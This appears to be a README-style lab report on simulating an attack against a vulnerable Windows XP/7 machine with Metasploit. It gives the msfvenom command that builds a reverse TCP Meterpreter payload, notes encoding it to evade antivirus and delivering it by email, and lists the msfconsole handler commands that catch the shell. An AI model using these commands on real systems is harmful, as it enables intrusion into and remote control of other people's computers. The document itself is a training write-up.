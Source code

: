 ## 📝 Executive Summary

This project simulates a real-world cyberattack within a controlled lab environment to understand the inner workings of payload generation, exploitation, and post-exploitation activities. Using Kali Linux as the attacker machine and a vulnerable version of Windows XP/7 as the target, we demonstrate how ethical hackers or penetration testers can simulate attacks using the Metasploit Framework.

---

## 🔍 Introduction

Metasploit is a powerful penetration testing tool used by security professionals to simulate cyberattacks. This project focuses on the delivery and execution of a reverse shell payload on a Windows machine using `msfvenom` and handling the connection through `msfconsole`. The aim is to learn hands-on how threat actors operate and how to better defend against such attacks.

---

## ⚙️ Methodology

### 3.1 Metasploit Payload Generation (`msfvenom`)

We created a Windows reverse TCP payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > payload.exe
```

We also encoded the payload with multiple iterations to evade antivirus detection.

### 3.2 Exploitation Using `msfconsole`

Once the payload was transferred to the Windows machine (via spoofing/email delivery), we set up a listener using `msfconsole`:

```bash
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set LHOST <attacker_ip>  
set LPORT <port>  
run
```

Upon execution by the victim, a Meterpreter session was opened.

---

## 🔎 Findings

### 4.1 Reconnaissance

* Performed IP and port scanning using Nmap to ensure target visibility
* Identified open ports and OS version
